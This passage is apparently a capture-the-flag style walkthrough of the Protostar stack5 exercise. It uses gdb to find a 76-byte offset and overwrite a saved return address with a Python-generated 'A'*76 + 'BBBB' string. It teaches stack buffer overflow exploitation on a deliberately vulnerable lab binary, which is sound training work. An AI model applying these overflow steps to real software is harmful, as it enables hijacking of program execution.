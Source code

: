 ```html
cd /opt/protostar/bin
gdb -q stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) disas main
```

Now we are going to put a breakpoint into the `main()` function to stop the execution of the program and examine what is on the stack.

```html
(gdb) b * 0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
```

Through `r` and `i r` for "info registers" we can get a complete overview and analyze the registers. So let's run it and check what we get. The `eax` value must contain the string that we have entered "ABCDEF" and therefore the beginning of the buffer is `0xbffffc70`.

```html
(gdb) x/s 0xbffffc70
0xbffffc70:     "ABCDEF"
```

Since the stack `esp` register points to `0xbffffcbc` then we can calculate the length of our padding using the following command:

```html
(gdb) p/d 0xbffffcbc - 0xbffffc70
$1 = 76
```

We can determinate that our filler length is equal to 76 and since we got it, we can overwrite the return address. In order to do it, open a new terminal and execute the following python command in order to get the complete string:

```html
python -c "print 'A' * 76 + 'B' * 4"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

The complete string in your clipboard and back the terminal where your instance of `gdb` is running and past the string after executing the `r` command as per the following:

```html
(gdb) r
Starting program: /opt/protostar/bin/stack5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
```

Once you are done, simply execute the following command to check if the value of your stack `esp` register has been updated:

```html
(gdb) x/s 0xbffffcbc
0xbffffcbc:      "BBBB"
```
